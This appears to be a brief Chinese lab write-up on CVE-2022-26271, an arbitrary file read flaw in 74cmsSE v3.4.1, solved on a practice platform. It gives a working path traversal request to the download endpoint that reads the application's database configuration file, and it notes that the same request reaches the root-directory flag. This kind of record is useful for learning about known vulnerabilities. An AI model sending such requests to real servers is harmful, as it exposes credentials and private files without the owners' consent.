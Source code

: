> https://yunjing.ichunqiu.com/cve/detail/731
> #Information-Disclosure 

> 74cmsSEv3.4.1存在任意文件读取漏洞。
> https://nvd.nist.gov/vuln/detail/cve-2022-26271

相对是一个比较简单的CVE，相关利用方法在GIthub Issue中就已经展示出来了：[【CVE-2022-26271】：74cmsSEv3.4.1 任意文件读取漏洞](https://github.com/N1ce759/74cmsSE-Arbitrary-File-Reading/issues/1)

正常访问：
![[Pasted image 20230117095538.png]]

```url
http://eci-2ze14boo207kn2u9nuzb.cloudeci1.ichunqiu.com/index/download/index?name=index.php&url=../../application/database.php
```
![[Pasted image 20230117095555.png]]

得到任意文件读取的入手点之后，就可以直接读取根目录的flag了：
![[Pasted image 20230117095659.png]]